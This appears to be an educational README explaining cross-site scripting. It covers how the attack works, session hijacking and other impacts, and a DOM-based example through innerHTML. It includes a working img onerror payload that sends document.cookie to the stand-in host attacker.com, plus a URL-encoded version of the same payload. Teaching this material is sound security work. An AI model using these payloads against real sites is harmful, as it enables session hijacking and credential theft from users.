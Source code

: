 # Cross-Site Scripting (XSS)

XSS stands for **Cross-Site Scripting**. It occurs when an attacker injects malicious scripts into a website. These scripts are executed on the user's browser, allowing attackers to steal sensitive information such as cookies, session tokens, or credentials.

## How It Works:

1. **Attacker**: Injects a malicious script into a vulnerable website.
2. **User Side**: The script is executed whenever a user visits the infected website. This can lead to data theft, unauthorized actions, and other malicious activities.

## Common Vulnerabilities:

1. **User Session Hijacking**: Attackers can steal session cookies, allowing them to impersonate the user.
2. **Unauthorized Actions**: Attackers can perform actions on behalf of the user, such as sending messages without the user's knowledge.
3. **Keystroke Logging**: Malicious scripts can capture keystrokes, exposing passwords and other sensitive information.
4. **Stealing Critical Information**: Sensitive data, such as personal information and credentials, can be stolen.
5. **Phishing Attacks**: Attackers can use XSS to create fake login pages and trick users into submitting their credentials.

## Example 1 of an XSS Attack:

In a typical development scenario, query parameters are often accessed using JavaScript, such as:

```jsx
new URLSearchParams(window.location.search).get("name");
```

This `name` parameter is then updated in the DOM using `innerHTML`. If proper sanitization isn't applied, an attacker could manipulate the URL to inject a malicious script.

### Example: Malicious Code in Image Tag

```html
<img
  src="does-not-exist"
  onerror="var img = document.createElement('img'); img.src = 'http://attacker.com/cookie?data=' + document.cookie; document.body.appendChild(img);"
/>
```

- In this example, the attacker injects an `<img/>` tag where the `src` points to a non-existent resource.
- When the image fails to load, the `onerror` handler is triggered.
- The attacker creates a new image element, appending the user's cookies to their malicious URL (`http://attacker.com/cookie?data=`) and sends the cookies to the attacker's server.

### Encoded Malicious URL:

To further obfuscate the attack, the attacker can encode the URL using `encodeURIComponent()`:

```jsx
let imgcode =
  "<img src=\"does-not-exist\" onerror=\"var img = document.createElement('img'); img.src = 'http://attacker.com/cookie?data=' + document.cookie; document.body.appendChild(img);\" />";

encodeURIComponent(imgcode);
```

This encoded URL can then be used to execute the XSS attack, stealing user cookies like session tokens and sending them to the attacker's server.
